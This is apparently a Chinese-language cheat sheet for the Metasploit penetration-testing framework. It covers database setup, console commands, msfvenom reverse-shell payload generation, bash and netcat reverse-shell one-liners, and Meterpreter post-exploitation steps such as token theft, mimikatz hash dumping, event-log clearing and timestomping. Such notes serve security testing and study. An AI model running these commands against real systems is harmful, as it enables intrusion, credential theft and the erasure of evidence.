 # Metasploit

该工具存在免费版本 Metasploit Framework 和付费版本 Metasploit Pro, 后者提供了许多实用的专业功能, 但是天价.  

## 数据库

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

msfdb status # 检查数据库服务状态, 包括监听端口
msfdb init   # 初始化数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息(如主机/服务/漏洞/战利品)会被记录到数据库中以便后续查询.  

### 导出

```sh
db_export -f xml ./msfdb.xml # 将当前 workspace 中的数据以 xml 格式导出到 ./msfdb.xml
```

!!! warning
    导出结果可能未空, 需要进行检查.  

## 快速入门

```sh
msf > workspace [name]    # 切换工作区
msf > workspace -a [name] # 添加工作区

msf > search [[type:]keyword] # 搜索 module
msf > use [id/module]         # 使用 module, module 的名称或 search 指令结果中的 id
msf > use [id/module]         # 显示 module 的详细信息.
msf > setg [option] [value]   # 设置默认选项, 避免切换 module 时重复填写不变的参数

msf(module) > options                 # 显示当前 module 的选项
msf(module) > info                    # 显示当前 module 的详细信息
msf(module) > show [option]           # 显示选项的可用选项
msf(module) > set [option] [id/value] # 设置选项, 选项的值或 show 指令结果中的 id
msf(module) > check                   # 部分 exploit module 支持, 用于验证 RHOSTS 是否可以被利用
msf(module) > run                     # 执行 module

msf > sessions         # 列出会话, -l
msf > sessions [id]    # 打开会话, -i
msf > sessions -u [id] # 将 shell 升级到 meterpreter
```

## 生成载荷

使用 msfvenom(msfpayload 和 msfencode 的替代品) 来生成载荷, 详情请参考[官方教程](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).  
需要根据具体情况(包括漏洞利用方式, 架构, 系统, 环境, 通讯方式等)选择合适的载荷/编码器/格式等其他参数.  

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[LHOST] LPORT=[LPORT] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp     LHOST=[LHOST] LPORT=[LPORT]                        -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[LHOST] LPORT=[LPORT]                        -f elf -o ~/payload

msfvenom -l payload # 查看载荷, 根据目标进行选择
msfvenom -l format  # 查看格式, 可以是可执行文件/脚本, 也可以只是用于源代码的 shellcode 代码片段
```

除了上传可执行文件到目标并执行, 也可以直接利用目标上的命令来获取 shell, 然后再将 shell 升级为 meterpreter.  

```sh
bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1
nc [LHOST] [LPORT] -e /bin/sh
```

利用对应的 shell_reverse_tcp 建立连接.  

## [Meterpreter](https://github.com/rapid7/metasploit-payloads)

Meterpreter 是一种特殊的多功能载荷, 充分利用其功能可以使后渗透攻击变得十分方便.  
以下列举几个常用功能:  

```sh
# 权限提升
meterpreter > getsystem [...]   # 自动提权
meterpreter > steal_token [pid] # 通过窃取拥有更高权限的进程的令牌提权

# 获取密码
meterpreter > load mimikatz                          # 载入 mimikatz
meterpreter > run post/windows/gather/smart_hashdump # 导出账户密码 hash

# 清除痕迹
meterpreter > clearev         # 清除应用/系统/安全日志
meterpreter > timestomp [...] # 编辑文件属性(包括创建/最后修改时间)

# 使用 module
meterpreter > search type:post  # 列出 post module
meterpreter > run [module]      # 执行 module, 主要位于 "post/[system]" 下
```

## 故障排除

msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

```
[blackarch]
SigLevel = Optional TrustAll
Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
```

## 拓展

- [Metasploit Documentation](https://docs.metasploit.com/)
- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>
- [mimikatz](https://github.com/ParrotSec/mimikatz)

